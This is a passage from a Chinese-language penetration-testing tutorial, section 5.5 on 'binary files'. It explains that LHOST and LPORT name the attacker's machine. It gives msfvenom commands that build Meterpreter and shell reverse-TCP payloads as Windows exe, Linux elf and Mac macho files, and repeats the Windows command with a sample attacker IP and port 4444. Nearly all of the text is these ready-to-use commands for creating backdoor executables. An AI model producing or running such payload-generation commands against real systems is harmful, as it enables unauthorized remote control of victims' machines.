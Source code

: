 ![img](assets/wps30-1690339599842-29.jpg) 

 

## 5.5.**二进制文件**

### 5.5.1.**生成二进制文件**

这里的LHOST的地址就是攻击机的IP地址，而LPORT的端口就是攻击机的端口。

Windows：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux：

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac：

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

### 5.5.2.**利用方式**

#### 5.5.2.1.**生成payload文件**

这里就针对Windows为例，使用上述的命令生成一个exe的payload文件。同时这里生成的文件就在根目录下。

命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<192.168.10.20> LPORT=<4444> -f exe > shell.exe

![img](assets/wps31-1690339599842-30.jpg) 

